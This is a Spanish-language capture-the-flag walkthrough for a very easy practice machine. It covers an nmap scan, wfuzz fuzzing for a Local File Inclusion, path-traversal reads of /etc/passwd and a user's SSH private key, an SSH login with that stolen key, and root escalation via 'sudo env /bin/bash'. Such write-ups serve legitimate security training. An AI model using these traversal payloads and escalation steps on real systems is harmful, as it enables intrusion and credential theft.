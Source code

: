 Dificultad: Muy facil

# INTRUSION

Comenzamos haciendo un escaneo de nmap a la ip 172.17.0.2.

```css
sudo nmap -p- 172.17.0.2 -sS --min-rate 5000 -n --open -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Sun Aug 18 23:05:22 2024 as: nmap -p- -sS --min-rate 5000 -n --open -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up (0.000014s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

# Nmap done at Sun Aug 18 23:05:24 2024 -- 1 IP address (1 host up) scanned in 1.76 seconds

```

Vemos el puerto 22 y 80 abierto, nada interesante por lo que iremos directo al puerto 80 desde el navegador.

## PUERTO 80:

![80](./imagenes/80.png)

Parece un tipo de advertencia y nos nombra un "LeFvIrus", si vemos las letras en mayuscula seria "LFI", por lo que podria tratar de un `Local File Inclusion`, sabiendo eso podemos entrar a donde dice "Ejemplos de computadoras infectadas" y nos redirige a un ".php" que dice `Error al cargar el archivo.`, sabiendo que puede tratar de un LFI podriamos fuzzear parametros con el siguiente comando:

```css
wfuzz --hl=16 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt "http://172.17.0.2/ejemplos.php?FUZZ=../../../../etc/passwd"
```

Al ejecutarlo vemos que el parametro "images" nos permite leer el `/etc/passwd`, ahora entramos al navegador y ponemos el parametro mas "../../../../etc/passwd". Como hay un usuario llamado "nico" podemos ver si se puede leer su clave privada de ssh, simplemente ponemos "../../../../home/nico/.ssh/id_rsa" y listo. Al enviarlo podemos ver la clave privada de el usuario nico. Nos copiamos la clave a nuestra maquina local a un archivo llamado "id_rsa", le damos permisos con `chmod 600 id_rsa` y luego entramos sin contraseña usando `ssh -i id_rsa nico@172.17.0.2`.

# ESCALADA DE PRIVILEGIOS

Una vez dentro seremos el usuario nico, al ejecutar `sudo -l` se ve que podemos ejecutar como root el binario "env", por lo que simplemente ponemos:

```css
sudo env /bin/bash
```

y listo, somos root:

![root](./imagenes/root.png)

Gracias.....





[INSTAGRAM](https://instagram.com/macim0_)